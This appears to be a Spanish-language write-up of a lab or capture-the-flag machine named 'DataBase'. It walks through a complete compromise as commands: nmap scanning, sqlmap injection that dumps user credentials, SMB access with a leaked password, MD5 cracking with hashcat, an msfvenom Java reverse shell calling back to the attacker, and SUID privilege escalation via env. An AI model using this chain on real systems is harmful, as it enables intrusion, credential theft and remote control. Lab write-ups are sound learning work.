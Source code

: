 ```yaml
---
layout: post
title: "DataBase"
date: 2024-12-3
categories: [pentesting]
image: /assets/images/imagen.jpg
---
```




iniciamos la maquina 

![Descripción de la imagen](/imagenes/pasted_image_20241129171203.png)

escaneamos puertos con nmap  `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2` 
 
![[Pasted image 20241129171313.png]](/imagenes/Pasted%20image%2020241129171313.png)

entramos a la dirrecion desde el navegador 

![[Pasted image 20241129171346.png]](/imagenes/Pasted%20image%20241129171346.png)

buscamos si el login tiene alguna vulneravilidad sql `sqlmap -u http://172.17.0.2:80/index.php --dbs --forms` 

![[Pasted image 20241129171558.png]](/imagenes/Pasted%20image%2020241129171558.png)

encontramos bases de datos que exploraremos 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables` 
 
 ![[Pasted image 20241129171705.png]](/imagenes/Pasted%20image%2020241129171705.png)
 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns --batch`
 
 ![[Pasted image 20241129171823.png]](/imagenes/Pasted%20image%202024112917182.png)
 
`sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns -C username,passwd --batch --dump`

![[Pasted image 20241129171940.png]](/imagenes/Pasted%20image%2020241129171940.png)

con las credenciales encontradas probamos en el login 

![[Pasted image 20241129172039.png]](/imagenes/Pasted%20image%2020241129172039.png)

en nmap observamos que esta base de datos corria en samba asi que hacemos uso de smbmap `smbmap -H 172.17.0.2 -u 'dylan' -p 'KJSDFG789FGSDF78'`

![[Pasted image 20241129172223.png]](/imagenes/Pasted%20image%2020241129172223.png)

tenemos permisos de lectura y escritura en shared `smbclient -U 'dylan' //172.17.0.2/shared` 

![[Pasted image 20241129172319.png]](/imagenes/Pasted%20image%2020241129172319.png)

con el comando get descargamos el archivo txt que encontramos de nombre augustus,txt

![[Pasted image 20241129172409.png]](/imagenes/Pasted%20image%2020241129172409.png)

vemos que es un tipo de hash procedemos a identificar y decifrar 

![[Pasted image 20241129172508.png]](/imagenes/Pasted%20image%2020241129172508.png)

`echo "061fba5bdfc076bb7362616668de87c8" > hashes.txt   ---  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`

![[Pasted image 20241129172730.png]](/imagenes/Pasted%20image%2020241129172730.png)

entramos mediante ssh con el usuario augustus y la contrasena obtenida  `ssh -p22 augustus@172.17.0.2` 

![[Pasted image 20241129172918.png]](/imagenes/Pasted%20image%2020241129172918.png)

usamos msfvenom para hacernos una revershell ya que el usuario dylan puede ejecutar codigo java 
 `msfvenom -p java/shell_reverse_tcp LHOST=<tu-ip> LPORT=4444 -f jar -o shell.jar`
 nos colocamos en escucha y luego ejecutamos nuestro archivo desde el usuario augustus 
 
 ![[Pasted image 20241129173148.png]](/imagenes/Pasted%20image%2020241129173148.png)
 
  con este comando subes tu archivo jar a la maquina victima `scp <archivo> augustus@172.17.0.2:/tmp` luego ejecutas `sudo -u dylan /usr/bin/java -jar /tmp/shell.jar`
  
  ![[Pasted image 20241129173519.png]](/imagenes/Pasted%20image%2020241129173519.png)
  
  le das tratamiento a la tty para tener la interfaz dylan `script /dev/null -c bash`
 luego para buscar los recursos que ejecuta el usuario  `find / -perm -4000 2>/dev/null`
 ya puedes observar que tienes permiso en la ruta env `/usr/bin/env /bin/sh -p`
 y listo eres root 
 
![[Pasted image 20241129173801.png]](/imagenes/Pasted%20image%2020241129173801.png)


   


